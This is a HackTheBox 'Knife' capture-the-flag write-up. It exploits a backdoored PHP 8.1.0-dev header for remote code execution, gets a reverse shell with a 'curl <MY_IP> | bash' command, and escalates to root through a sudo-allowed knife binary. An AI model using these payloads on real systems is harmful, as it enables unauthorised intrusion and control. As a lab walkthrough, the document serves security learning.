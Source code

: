 # Knife Writeup

### objetives
* user flag
* root flag

---

## Basic Enumeration

the ICMP TTL tells us that its a Linux Machine

nmap :
* p22	OpenSSH 8.2p1 Ubuntu
* p80	Apache httpd 2.4.41

### web

the main page is really plain and there isn't that much going on  
so we try to find something interesting on the headers or using the different **HTTP Verbs**  
there is a pretty interesting Header though: *X-Powered-By: PHP/8.1.0-dev*  
we google this version and there is a vulnerability that leads to RCE, thats great !!!

---

## User Flag

the way to exploit this vulnerability is by sending the following header to the server :  
`User-Agentt: zerodiumsystem('<command>');`  
we use it to get a reverse shell the following way:
* i create a file called *index.html* with a bash script that leads to a reverse shell at port 443
* i start a server on the folder where the script is stored
* i start a nc listener at port 443
* i use the RCE to execute the command `curl <MY_IP> | bash`
* the reverse shell should appear on your netcat listener

we get the User Flag at */home/james*

---

## Root Flag

with `sudo -l` we see that we can use the command `/usr/bin/knife` as root  
we type `/usr/bin/knife -h` and there is a link to the docs at [https://docs.chef.io/workstation/knife/](https://docs.chef.io/workstation/knife/)  
we search about the command and we discover that it can execute perl scripts  
we try the GTFOBins payload for sudo with Perl to get that beloved root shell  
we type `sudo /usr/bin/knife exec -E 'exec "/bin/sh"'`...and Boom !!
now we can get our well-deserved root flag !!!!!

---

## Conclusions

I believe this to be the easiest HackTheBox machine i've tried so far, even though you probably need to be aware enough to understand that there's nothing on the website and you have to check something a little bit hidden like an PHP version in a header, this machine shouldn't be a challenge for most of pentesters


